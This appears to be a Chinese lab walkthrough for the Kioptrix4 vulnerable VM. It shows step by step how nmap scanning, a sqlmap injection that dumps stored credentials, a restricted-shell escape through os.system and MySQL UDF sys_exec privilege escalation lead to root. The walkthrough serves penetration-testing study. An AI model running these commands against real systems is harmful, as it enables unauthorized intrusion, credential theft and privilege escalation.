 # Kioptrix4 通关笔记

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供，我仅作部分内容修改

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

# 前期
## nmap
开机后我们发现 这个用户名和密码是不知道的

![image](../../../img/渗透/实验/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中。然后我们要知道这个虚拟机的 ip 地址，就要用到 IP 探活。

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../img/渗透/实验/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址，除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口
```
nmap 192.168.17.130
```

![image](../../../img/渗透/实验/Kioptrix4/3.png)

可以发现，目标打开了 80 端口

![image](../../../img/渗透/实验/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload，下面选择直接跑 sqlmap

---
---
---

# 中期
## sql注入

代码：

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../img/渗透/实验/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../img/渗透/实验/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```

![image](../../../img/渗透/实验/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../img/渗透/实验/Kioptrix4/12.png)

---

## 登陆 MYSQL
```
mysql -u root -p
```

---

![image](../../../img/渗透/实验/Kioptrix4/13.png)

## mysql UDF 提权

在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![image](../../../img/渗透/实验/Kioptrix4/16.png)

```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![image](../../../img/渗透/实验/Kioptrix4/17.png)
![image](../../../img/渗透/实验/Kioptrix4/18.png)

在我们退出去后，尝试登陆到 root

![image](../../../img/渗透/实验/Kioptrix4/19.png)

`whoami` 确认获取 `root`
